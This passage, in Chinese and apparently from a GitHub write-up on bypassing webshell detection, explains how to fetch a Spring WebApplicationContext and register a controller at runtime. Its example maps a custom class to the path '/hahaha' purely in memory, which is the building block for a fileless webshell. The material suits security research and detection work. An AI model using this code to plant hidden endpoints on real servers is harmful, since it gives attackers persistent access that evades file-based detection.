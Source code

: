 ![](https://raw.githubusercontent.com/LandGrey/webshell-detect-bypass/master/docs/spring-inject-webshell/images/currentRequestAttributes.png)



#### **方法四：getAttribute**

```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

从**方法三**的分析来看，其实完全可以将存放在 `ServletContext` 属性中的 `Context` 取出来直接使用。在阅读相关源码后发现，上面代码中的 `currentRequestAttributes()` 替换成 `getRequestAttributes()` 也同样有效；`getAttribute` 参数中的 `0`代表从当前 `request` 中获取而不是从当前的 `session` 中获取属性值。

因此，使用以上代码也可以获得一个名叫 `dispatcherServlet-servlet` 的 `Child WebApplicationContext`。



### 2. 手动注册 controller

一个正常的 `Controller` 示例代码如下，当用浏览器访问 `/hello` 路径时，会在定义好的 `View` 中输出 `hello World` 字样。

```java
@Controller
public class HelloController {
    @RequestMapping(value = "/hello", method = RequestMethod.GET)
    public String hello(@RequestParam(value="name", required=false, defaultValue="World") String name, Model model) {
        model.addAttribute("name", name);
        return "hello";
    }
}
```



如下图：**Spring 3.2.5** 处理 URL 映射相关的类都实现了 `HandlerMapping` 接口。

![](https://raw.githubusercontent.com/LandGrey/webshell-detect-bypass/master/docs/spring-inject-webshell/images/HandlerMapping.png)



**Spring 2.5** 开始到 **Spring 3.1** 之前一般使用 `org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping`  映射器 ；

**Spring 3.1** 开始及以后一般开始使用新的 `org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping` 映射器来支持`@Contoller`和`@RequestMapping`注解。

当然，也有高版本依旧使用旧映射器的情况。因此正常程序的上下文中一般存在其中一种映射器的实例 `bean`。又因版本不同和较多的接口等原因，手工注册动态 `controller` 的方法不止一种。



#### 方法一：registerMapping

在 **spring 4.0** 及以后，可以使用 `registerMapping` 直接注册 `requestMapping` ，这是最直接的一种方式。

相关示例代码和解释如下：

```java
// 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
// 2. 通过反射获得自定义 controller 中唯一的 Method 对象
Method method = (Class.forName("me.landgrey.SSOLogin").getDeclaredMethods())[0];
// 3. 定义访问 controller 的 URL 地址
PatternsRequestCondition url = new PatternsRequestCondition("/hahaha");
// 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
// 5. 在内存中动态注册 controller
RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
r.registerMapping(info, Class.forName("me.landgrey.SSOLogin").newInstance(), method);
```

